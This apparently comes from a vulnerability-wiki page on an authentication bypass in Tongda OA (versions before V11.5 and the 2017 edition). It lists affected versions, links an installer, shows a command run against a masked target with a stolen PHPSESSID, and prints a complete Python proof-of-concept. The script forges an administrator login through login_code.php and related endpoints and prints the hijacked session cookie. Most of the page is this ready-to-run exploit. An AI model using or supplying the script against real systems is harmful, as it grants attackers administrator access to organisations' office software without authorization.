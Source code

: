# Tongda OA v11.5 login_code.php Any user login

## Vulnerability Description

Tongda OA is an office system. 
This vulnerability type is forged by any user, and unauthorized remote attackers can use carefully constructed request packets to make logins for any user.

## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tongda OA 2017 edition</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tongda OA version V11.X < V11.5</span>

## Environment construction

Vulnerability environment download

```plain
https://cdndown.tongda2000.com/oa/2019/TDOA11.4.exe
```

Double-click to install

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-1.png)



## Vulnerability reappears

Use [POC](https://github.com/NS-Sp4ce/TongDaOA-Fake-User/blob/master/POC.py) to get the administrator's cookies

```plain
root@kali:~/桌面# python3 1.py -v 11 -u http://xx.xxx.xxx.xxx
[+]Get Available COOKIE:PHPSESSID=sr3f46qg6539khd3e3rrucoa72; path=/
```

Successfully obtained cookies, add cookie access

```
/general/index.php?isIE=0&modify_pwd=0
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-2.png)



## Vulnerability POC

```python
'''
@Author         : Sp4ce
@Date           : 2020-03-17 23:42:16
LastEditors    : Sp4ce
LastEditTime   : 2020-08-27 10:21:44
@Description    : Challenge Everything.
'''
import requests
from random import choice
import argparse
import json

USER_AGENTS = [
    "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; AcooBrowser; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",
    "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0; Acoo Browser; SLCC1; .NET CLR 2.0.50727; Media Center PC 5.0; .NET CLR 3.0.04506)",
    "Mozilla/4.0 (compatible; MSIE 7.0; AOL 9.5; AOLBuild 4337.35; Windows NT 5.1; .NET CLR 1.1.4322; .NET CLR 2.0.50727)",
]

headers={}

def getV11Session(url):
    checkUrl = url+'/general/login_code.php'
    try:
        headers["User-Agent"] = choice(USER_AGENTS)
        res = requests.get(checkUrl,headers=headers)
        resText = str(res.text).split('{')
        codeUid = resText[-1].replace('}"}', '').replace('\r\n', '')
        getSessUrl = url+'/logincheck_code.php'
        res = requests.post(
            getSessUrl, data={'CODEUID': '{'+codeUid+'}', 'UID': int(1)},headers=headers)
        tmp_cookie = res.headers['Set-Cookie']
        headers["User-Agent"] = choice(USER_AGENTS)
        headers["Cookie"] = tmp_cookie
        check_available = requests.get(url + '/general/index.php',headers=headers)
        if '用户未登录' not in check_available.text:
            if '重新登录' not in check_available.text:
                print('[+]Get Available COOKIE:' + tmp_cookie)
        else:
            print('[-]Something Wrong With ' + url + ',Maybe Not Vulnerable.')
    except:
        print('[-]Something Wrong With '+url)



def get2017Session(url):
    checkUrl = url+'/ispirit/login_code.php'
    try:
        headers["User-Agent"] = choice(USER_AGENTS)
        res = requests.get(checkUrl,headers=headers)
        resText = json.loads(res.text)
        codeUid = resText['codeuid']
        codeScanUrl = url+'/general/login_code_scan.php'
        res = requests.post(codeScanUrl, data={'codeuid': codeUid, 'uid': int(
            1), 'source': 'pc', 'type': 'confirm', 'username': 'admin'},headers=headers)
        resText = json.loads(res.text)
        status = resText['status']
        if status == str(1):
            getCodeUidUrl = url+'/ispirit/login_code_check.php?codeuid='+codeUid
            res = requests.get(getCodeUidUrl)
            tmp_cookie = res.headers['Set-Cookie']
            headers["User-Agent"] = choice(USER_AGENTS)
            headers["Cookie"] = tmp_cookie
            check_available = requests.get(url + '/general/index.php',headers=headers)
            if '用户未登录' not in check_available.text:
                if '重新登录' not in check_available.text:
                    print('[+]Get Available COOKIE:' + tmp_cookie)
            else:
                print('[-]Something Wrong With ' + url + ',Maybe Not Vulnerable.')
        else:
            print('[-]Something Wrong With '+url  + ' Maybe Not Vulnerable ?')
    except:
        print('[-]Something Wrong With '+url)


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument(
        "-v",
        "--tdoaversion",
        type=int,
        choices=[11, 2017],
        help="Target TongDa OA Version. e.g: -v 11、-v 2017")
    parser.add_argument(
        "-url",
        "--targeturl",
        type=str,
        help="Target URL. e.g: -url 192.168.2.1、-url http://192.168.2.1"
    )
    args = parser.parse_args()
    url = args.targeturl
    if 'http://' not in url:
        url = 'http://' + url
    if args.tdoaversion == 11:
        getV11Session(url)
    elif args.tdoaversion == 2017:
        get2017Session(url)
    else:
        parser.print_help()
```



If you gain something, just like it